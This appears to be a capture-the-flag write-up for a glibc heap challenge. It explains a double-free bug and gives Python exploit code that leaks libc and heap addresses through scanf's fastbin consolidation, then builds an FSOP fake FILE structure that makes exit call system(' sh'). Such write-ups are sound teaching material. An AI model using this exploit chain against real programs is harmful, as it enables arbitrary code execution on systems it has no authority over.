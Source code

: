 ```c
                    a();      
                    break;
                case 2: 
                    b("%d");  
                    break; 
                default: break;
            }
        }
    }
}
```

Essentially, when providing menu input:
1. `malloc(0x40)` then requests index and reads 0x40.
2. Requests idx and calls `exit`.
3. `free(chunk[idx])` but doesn't null it, so it gets a double free.
4. displays the contents of idx.

So, to exploit this, we first leak the heap, then libc by using one of scanf unique features when we provide 1024 bytes of input, scanf will move the fastbin to smallbin.

```python
for i in range(9): 
    alloc(i, b"\x00")
for i in reversed(range(7)): 
    free(i)
free(7)
sla(": ", b"4".rjust(1024, b"0")) # Using scanf to move fastbin to smallbins
sla(": ", str(7).encode())
libc_leak = u64(ru('a -').ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 160)
views(6)
heap_leak = u64(ru('a -').ljust(8, b"\x00")) << 12
heap = heap_leak & ~0xfff
```

After leaking libc, I created a fake fp that will be used when `exit`. The fake FP contains the following
[FSOP](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43)

```python
def fsrop(fp=libc.sym._IO_2_1_stdout_, offset=0x18):
    fs = IO_FILE_plus_struct() 
    fs.flags = b" sh;".ljust(0x8,b"\x00") 
    fs._IO_read_end = fp 
    fs._lock = fp+0x100 
    fs._wide_data = fp - 0x10 
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym.system) + p64(fp + 0x60) 
    fs.vtable = (libc.sym._IO_wfile_jumps + offset) - 0x18
    return bytes(fs)
```

Since the input is only 0x40, we skip 10 bytes.
